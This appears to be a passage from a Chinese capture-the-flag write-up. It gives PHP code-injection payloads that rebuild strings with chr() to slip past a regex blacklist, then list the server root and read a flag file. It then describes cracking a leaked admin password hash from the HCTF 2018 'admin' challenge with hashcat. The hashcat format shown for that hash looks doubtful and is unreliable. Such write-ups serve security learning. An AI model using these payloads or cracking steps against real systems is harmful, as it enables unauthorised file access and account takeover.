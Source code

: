 > var_dump($variable); 输出变量的类型和详细结构（值当然也输出）
> 示例输出：string(5) "hello", array(2) { [0]=> int(1) [1]=> string(3) "abc" }

> file_get_contents('/path/to/file') $content = file_get_contents('/path/to/file'); 作用：读取指定文件的全部内容并返回为字符串。
> 适用于读取文本文件、网页内容等。如果文件不存在或不可读，返回 false。

至于blacklist的正则匹配过滤，我们只需要用chr()拼接就可以！

在参数的位置，我们可以用chr().chr()来拼出任何字符串

先查根目录：

?%20num=1;var_dump(scandir(chr(47)))

![alt text](image-2.png)

找到一个目录f1agg：

?%20num=1;var_dump(scandir(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103).chr(47)))

返回false，说明flagg是一个文件！那直接读取：

?%20num=1;var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

得到flag!

真是学了好多新东西啊...

## [HCTF 2018]admin

F12查看代码，提示我们要以admin的身份登录，

注意到旁边有Register选项，想着自己注册一个admin账号，却发现admin已经被注册了

随便注册一个账号进入，发现右边多了Change passwd的选项，

仔细审计每一个页面的源码，在修改密码界面的源码发现作者留下了源码的github地址，虽然打不开，但也能猜到是作者github名字改了，于是直接搜仓库名字就能搜到。

在github界面仓库内搜索admin关键字，找到两个位置。

第二个位置是：

```sql
INSERT INTO `user` (`id`, `email`, `password_hash`, `username`) VALUES
(1, NULL, 'pbkdf2:sha1:1000$HHGfbouP$eaa88f64aad0dd3f81a72c16337c03cd1bdc6be1', 'admin'),
(2, NULL, 'pbkdf2:sha1:1000$ErwOESOB$f61a07b6836fab26e885f0dd5419b0f75ea5bf96', 'ckj123');
```

似乎直接记录了admin的password_hash，试图用hashcat暴力破解：

hashcat -m 120 hash.txt rockyou.txt

（hashcat我放在F:\app\目录了）其中hash.txt中的sha1哈希格式要转化为hashcat可读的：

eaa88f64aad0dd3f81a72c16337c03cd1bdc6be1:HHGfbouP:1000

hash:salt:length格式的可读sha1哈希。
